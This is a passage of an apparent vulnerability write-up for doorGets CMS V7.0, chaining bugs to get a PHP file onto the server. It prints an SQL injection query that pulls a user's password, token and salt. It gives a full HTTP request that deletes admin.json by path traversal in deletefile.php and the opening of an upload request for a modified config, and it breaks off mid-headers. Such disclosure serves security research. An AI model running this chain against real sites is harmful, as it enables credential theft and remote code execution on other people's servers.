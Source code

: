```select concat((select password from _users where id=7),(select token from _users where id=7),(select hex(salt) from _users where id=7))```
![43.png](./img/43.png)

If the \doorGets_CMS_V7.0\fileman\conf.json file does not exist or is empty, it will exit directly.

The following is found in the \fileman\index.php file:

![44.png](./img/44.png)

Lines 12-14 get the information of the currently logged in user. Line 16 determines the type of the user. By default, all logged in users' $user['fileman'] are 'admin', and the program will copy \doorGets_CMS_V7.0\fileman\admin.json to \doorGets_CMS_V7.0\fileman\conf.json.

If you can control the contents of \doorGets_CMS_V7.0\fileman\admin.json, you can control the upload file type and finally upload the .php file.

The final exploit is as follows: first delete the \doorGets_CMS_V7.0\fileman\admin.json file using any file deletion vulnerability, and then upload the \doorGets_CMS_V7.0\fileman\admin.json file through the file upload function (modify the file and delete the php characters in FORBIDDEN_UPLOADS). Then log in to the user account and visit /fileman/index.php, and finally upload the .php file using the file upload function.


Use the arbitrary file deletion vulnerability to delete the \doorGets_CMS_V7.0\fileman\admin.json file. The request is as follows:
```
POST /fileman/php/deletefile.php HTTP/1.1
Host: 127.0.0.1:8003
Connection: keep-alive
Content-Length: 38
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://127.0.0.1:8003
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.26 Safari/537.36 Core/1.63.6788.400 QQBrowser/10.3.2864.400
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
DNT: 1
Referer: http://127.0.0.1:8003/fileman/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=; roxyld=%2Ffileman%2FUploads; roxyview=list

f=%2Ffileman%2FUploads%2F../admin.json
```
![45.png](./img/45.png)

Then upload the modified \doorGets_CMS_V7.0\fileman\admin.json file with the following request:
```
POST /fileman/php/upload.php HTTP/1.1
Host: 127.0.0.1:8003
Connection: keep-alive
Content-Length: 1974
Pragma: no-cache
Cache-Control: no-cache
Accept: */*
Origin: http://127.0.0.1:8003
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.26 Safari/537.36 Core/1.63.6788.400 QQBrowser/10.3.2864.400
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryyvbOyiQFuiy0akbE
DNT: 1
Referer: http://127.0.0.1:8003/fileman/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9